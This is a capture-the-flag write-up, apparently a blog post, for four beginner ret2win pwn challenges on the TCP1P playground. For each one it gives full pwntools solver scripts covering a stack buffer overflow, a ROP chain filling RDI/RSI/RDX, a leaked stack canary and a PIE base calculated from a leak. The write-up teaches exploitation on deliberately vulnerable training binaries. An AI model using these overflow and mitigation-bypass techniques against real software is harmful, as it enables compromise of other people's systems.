








import PostFileDownload from "../../../components/PostFileDownload.astro";

## ret2win

> _Buffer overflow di stack bisa kita gunakan untuk overwrite saved RIP. Kita bisa overwrite dengan alamat fungsi win untuk menjalankannya._
>
> _Author: zran_

<PostFileDownload name="tcp1p-playground-ret2win1.zip" />

Simple buffer overflow challenge, but the only roadblock for me was _stack alignment_ on the remote so i learned how to use ROPgadget to find a simple ret gadget to solve this.

```
$ ROPgadget --binary ret2win | grep 'ret'
...
0x000000000040118f : nop ; ret
...
```

Just do the classic pwn stuff, find offset and enter win function. This was the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19000
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19000)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

ret = p64(0x40118f)
win = p64(0x401216)

payload = b'A' * 120
payload += ret
payload += win
log.info(payload)

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())
io.interactive()
```



## ret2win 2

> _Introduction to Return Oriented Programming (ROP). Di arsitektur x86-64, 3 argumen pertama dari saat memanggil fungsi diambil dari register RDI, RSI, dan RDX. Dengan tools seperti ropper atau ROPgadget, kita bisa dapetin gadget yang bisa ngisi register-register itu dengan nilai yang kita inginkan._
>
> _Author: zran_

<PostFileDownload name="tcp1p-playground-ret2win2.zip" />

My first introduction to using actual ROP to solve a challenge, learned stuff at ir0nstone and used the knowledge to perform "Ret2Win with Parameters". Since this was a 64-bit binary, I had to do register popping. But first, I had to find which variable was connected to which:





Looking at the disassembly for the win function, I saw three comparisons and fortunately they were easily recognizable with their register names of RDI, RSI, and RDX.

```
pwndbg> rop --grep pop
0x00000000004011fb : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401219 : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x0000000000401216 : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004011f6 : mov byte ptr [rip + 0x2eab], 1 ; pop rbp ; ret
0x000000000040121c : mov ebp, esp ; pop rdi ; ret
0x000000000040121b : mov rbp, rsp ; pop rdi ; ret
0x0000000000401224 : nop ; pop rbp ; ret
0x00000000004011fd : pop rbp ; ret
0x000000000040121e : pop rdi ; ret
0x0000000000401222 : pop rdx ; ret
0x0000000000401220 : pop rsi ; ret
0x000000000040121a : push rbp ; mov rbp, rsp ; pop rdi ; ret
```

The author was nice enough to leave simple return gadgets for each required register pop, so here's the full solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19001
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19001)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

win = p64(0x401227)
POP_RDI = p64(0x40121e)
POP_RSI = p64(0x401220)
POP_RDX = p64(0x401222)
nop_ret = p64(0x40118f)

payload = b'A' * 120
payload += POP_RDI
payload += p64(0xdeadbeefdeadbeef)
payload += POP_RSI
payload += p64(0xabcd1234dcba4321)
payload += POP_RDX
payload += p64(0x147147147147147)
payload += nop_ret
payload += win

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```



## ret2win 3

> Salah satu mitigasi dari buffer overflow di stack adalah canary. Canary adalah 8 byte random yang diletakkan sebelum saved RBP. Jadi, kalau kita overwrite saved RIP menggunakan buffer overflow, canary pasti akan ikut berubah. Canary akan diperiksa oleh program setiap sebelum keluar fungsi dan kalau canary-nya berubah dari sebelumnya, berarti telah terjadi buffer overflow dan program akan dihentikan. Tapi, kalau kita tau canary-nya, kita tinggal masukin ke payload kita di offset yang sesuai.
>
> Author: **zran**

<PostFileDownload name="tcp1p-playground-ret2win3.zip" />

First time learning canaries, a simple canary challenge where the binary leaks the canary for you and leaves you to work to return to the win function. Simple buffer overflow by finding the offset to the canary and the EIP.

Start by finding the offset to EIP with cyclic patterns, by placing a breakpoint on the compare instruction with the canary:





After replacing the correct offset with canary, find the offset to EIP which was 8 bytes and insert a stack alignment gadget followed by the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19002
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19002)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

offset_eip = 120
ret = 0x000000000040101a
win = 0x0000000000401236

log.info(io.recvuntil(': '))
canary = int(io.recvline(), 16)
log.success(f"Canary Leak: {hex(canary)}")
log.info(io.clean())

payload = b'A' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(ret)
payload += p64(win)

log.info(f"payload: {payload}")
io.sendline(payload)
log.info(io.clean())

io.interactive()
```



## ret2win 4

> Mitigasi lain untuk menyusahkan penyerang dalam mengubah alur program adalah PIE. PIE adalah singkatan dari Position Independent Executable yang mengakibatkan program kita untuk di-load ke dalam memori dengan offset random. Jadi walaupun ada buffer overflow, penyerang tidak tau alamat dari fungsi/instruksi yang ingin dijalankan. Tapi, kalau kita bisa dapetin salah satu alamat dari program saat dijalankan, alamat dari fungsi/instruksi yang ingin dijalankan tinggal dihitung dari selisihnya dengan alamat yang udah didapetin tadi.
>
> Author: **zran**

<PostFileDownload name="tcp1p-playground-ret2win4.zip" />

First time learning PIE, and this challenge is a simple introduction to PIE. The goal is to buffer overflow but with PIE in mind. First step is to use the given leak to get PIE, since it's a global variable it's very easy to find the offset. _(see 0x404c \<what_is_this_for>)_



Just subtract the leaked address with -0x404c and we get the base address for ROP:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19003
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19003)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

log.info(io.recvuntil(': '))
leak = int(io.recvline(), 16)
log.success(f"Gifted address: {hex(leak)}")
base_addr = leak - 0x000000000000404c
log.success(f"Base address: {hex(base_addr)}")
log.info(io.clean())

payload = b'A' * 120
payload += p64(base_addr + 0x000000000000101a) # ret
payload += p64(base_addr + 0x0000000000001209) # win
log.success(f"Payload: {payload}")

log.info(io.clean())
io.sendline(payload)
io.interactive()
```


